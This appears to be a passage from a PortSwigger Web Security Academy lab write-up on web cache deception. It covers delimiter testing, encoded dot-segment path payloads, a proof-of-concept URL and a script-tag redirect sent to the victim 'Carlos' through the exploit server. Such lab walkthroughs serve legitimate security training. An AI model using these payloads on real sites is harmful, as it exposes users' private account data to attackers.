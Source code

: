 >Repeat previous intruder attack test using the `%23`, `%3f` and `?` characters.  
>Notice that the responses don't show evidence of caching headers.  

>Finding normalization discrepancies.  
>Testing payloads for directory prefix.

```
/aaa/..%2fresources/YOUR-RESOURCE
/aaa/..%2fresources/EXPLOIT.js
```  

>Indicate that the cache decodes and resolves the dot-segment and has a cache rule based.  
>Test without leading random directory, `/resources/..%2fYOUR-RESOURCE` and notice 404 response.  
>Idnetified that the cache decodes and resolves the dot-segment and has a cache rule based on the `/resources` prefix.  

### Exploiting  

>Exploiting cache server normalization for web cache deception  

>Craft POC to validate vulnerability:  

```
/my-account%23%2f%2e%2e%2fresources
```  

>Decode as `/my-account#/../resources` and rersulting in tricking the cache rule looking for `/resources` and the `#` terminating the URL.  

>Phishing payload delivered to victim Carlos via Exploit server Body:  
>Add an random arbitrary parameter as a cache buster `nuts`:  

```javascript
<script>document.location="https://0a2d00e80389c11c803103ba0042002a.web-security-academy.net/my-account%23%2f%2e%2e%2fresources?nuts"</script>
```  

![portswigger_web_cache_exploit_server_delimiter_with_directory_cache_rule.png](/images/portswigger_web_cache_exploit_server_delimiter_with_directory_cache_rule.png)  
